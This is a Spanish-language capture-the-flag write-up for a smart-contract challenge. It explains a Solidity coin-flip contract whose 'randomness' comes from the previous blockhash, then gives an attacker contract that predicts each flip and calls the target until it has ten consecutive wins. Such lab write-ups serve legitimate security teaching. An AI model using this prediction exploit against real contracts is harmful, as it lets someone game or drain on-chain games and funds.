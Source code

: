 # 3-Coin Flip

## Objetivo
Predecir 10 veces seguidas la cara de la moneda

## Contrato
```Solidity
// SPDX-License-Identifier: MIT
pragma solidity ^0.6.0;

import '@openzeppelin/contracts/math/SafeMath.sol';

contract CoinFlip {

  using SafeMath for uint256;
  uint256 public consecutiveWins;
  uint256 lastHash;
  uint256 FACTOR = 57896044618658097711785492504343953926634992332820282019728792003956564819968;

  constructor() public {
    consecutiveWins = 0;
  }

  function flip(bool _guess) public returns (bool) {
    uint256 blockValue = uint256(blockhash(block.number.sub(1)));

    if (lastHash == blockValue) {
      revert();
    }

    lastHash = blockValue;
    uint256 coinFlip = blockValue.div(FACTOR);
    bool side = coinFlip == 1 ? true : false;

    if (side == _guess) {
      consecutiveWins++;
      return true;
    } else {
      consecutiveWins = 0;
      return false;
    }
  }
}
```
## Análisis del contrato
* Puede ser compilado con una versión 0.6.0 o superior de Solidity.
* Importa la librería SafeMath de OpenZeppeling por lo que sabemos que las operaciones aritméticas es poco probable que fallen.
* Posee tres variables **_uint256_** consecutiveWins, lastHash y FACTOR a la cual se le asigna un valor fijo.
* El constructor, setea en 0 la variable consecutiveWins
* Función Flip, es pública, recibe como parámetro un booleano y devuelve un booleano.</br>
Esta función toma el valor del bloque actual a la cual se agrega la transacción, se le resta una unidad, y se le aplica un función de hash el resultado es 
almacenado en la variable blockValue.</br>
Luego valida si el último hash generado es igual al hash que se acaba de generar, si es igual quiere decir que no se generó un nuevo bloque
y la transacción se revierte. En caso de que no sean iguales, se guarda este hash en la variable lastHash, la variable blockValue se divide por la variable FACTOR y
el resultado se guarda en la variable coinFlip.</br>
Si coinFlip es igual a 1, la variable side almacena true de lo contrario almacena false.
Luego valida si la variable side es igual al parámetro guess recibida por parámetro. Si son iguales suma 1 a la cantidad de victorias consecutivas, de lo contrario,
le asigna 0.

## Solución
Dos cosas a tener en cuenta: 
1. En las divisiones en Solidity se redondea para 0, es decir que si dividimos 1/2 el resultado será 0.
2. En solidity no existe forma nativa de generar un número realmente aleatorio, ya que tanto el código como las variables son visibles al público.
Los bloques y timestamps también, por lo que los mineros pueden manipular estas variables para agregar o no una transacción en cierto bloque.

Por lo que la solución es utilizar parte del código del contrato original, para predecir cuál será el valor del giro de la moneda.
Para esto, vamos a crear un contrato que llamará a la función del contrato original con el valor correcto de tal forma de no fallar.

### Contrato Hack
```Solidity
contract hackCoinFlip{

    uint256 FACTOR = 57896044618658097711785492504343953926634992332820282019728792003956564819968;
    CoinFlip public originalContract = CoinFlip({{address de tu contrato coinFlip}});

    function hackGuess() public {
        uint256 blockValue = uint256(blockhash(block.number - 1));
        uint256 flip = blockValue/FACTOR;
        bool side = flip == 1 ? true : false;
        originalContract.flip(side);
    }
}
```
El contrato **_hackCoinFlip_**, lo que hace es realizar el mismo proceso que el contrato original y una vez que posee el valor correcto, llama a la función flip del contrato original
con este valor.</br>
Este contrato lo podemos deployar utilizando [Remix](https://remix.ethereum.org/), una vez deployado llamamos a la función hackGuess unas 10 veces manualmente.</br>
Pueden vaidar cómo el valor de consecutiveWins va aumentando con cada llamada a la función hackGuess.

Una vez realizados los 10 lanzamientos, realizamos el submit de la instancia y listo!. Cuarto reto completado.
